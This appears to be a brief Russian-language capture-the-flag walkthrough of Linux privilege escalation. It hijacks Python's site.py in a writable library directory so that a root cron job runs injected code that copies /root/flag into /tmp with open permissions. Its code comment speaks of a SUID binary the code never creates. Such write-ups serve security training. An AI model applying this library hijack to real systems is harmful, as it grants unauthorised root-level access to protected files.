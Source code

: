 находим ежеминутную задачу от рута в cron /opt/hello.py
```
#!/usr/bin/python3 
print("Hello, world")
```
с помощью команды find /bin /etc /lib /opt /usr /sbin /var -type f,d -writable 2> /dev/null находим директории где можем создавать файлы
/usr/lib/python3
/usr/lib/python3.9
/usr/lib/python3.8 

изучив версию питона которая используется python3 --version делаем вывод что требуется изменение библиотек python3.8

python3 -v /opt/hello.py покажет какие библиотеки подгружаются
пересоздаем библиотеку site.py чтобы могли модифицировать ее и в начале файла добавляем
```
import os

# Пример: создание SUID-бинарника
if os.geteuid() == 0:
    with open("/tmp/x", "w") as f:
        f.write("""#!/bin/bash
cp /root/flag /tmp/flag
chmod 777 /tmp/flag
""")

    os.chmod("/tmp/x", 0o777)
    os.system("/tmp/x")
```
дожидаемся запуска /opt/hello.py и проверяем /tmp на наличие файла flag